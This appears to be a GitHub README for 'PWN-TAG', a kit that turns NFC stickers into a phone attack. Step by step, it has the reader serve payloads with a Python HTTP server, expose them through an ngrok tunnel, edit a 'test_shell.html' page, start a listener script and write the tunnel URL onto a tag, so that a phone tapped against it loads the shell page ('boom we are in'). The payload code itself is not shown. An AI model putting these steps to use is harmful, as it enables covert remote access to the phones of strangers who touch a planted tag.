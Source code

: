 # PWN-TAG
"tag to pwn" NFC tag exploit

things you need: 

nfc tag stickers about $10 for 25 >

https://a.co/d/gl2XRV8

nfc tag writer app:
something similar to this one works and 
the free edition works too

https://apps.apple.com/app/id1252962749

lastly you need a debian based linux distro



##Start HTTP Server in Terminal 1

In your ~/PWN_TAG folder:

```bash
python3 -m http.server 8080
```
Leave it running — this hosts your payloads.

## Start ngrok in Terminal 2

Open a new terminal tab or split window, then run:

```bash
ngrok http 8080
```
Copy that https://... link — that’s your live web URL.

## Update test_shell.html in Terminal 3

If you haven’t updated yet:

```bash
nano payloads/test_shell.html
```
Replace with your real ngrok link

##Start Listener in Terminal 4

```bash
python3 listener.py
```
## imbed NFC tag with url:

open nfc writer app

-choose write
-add record
-choose url
-place ngrok link "https://f6xd-3301-602...ngrok-free.app/payloads/test_shell.html"
-write

now just place your phone near the tag and boom we are in

H^3 hope all is well homies




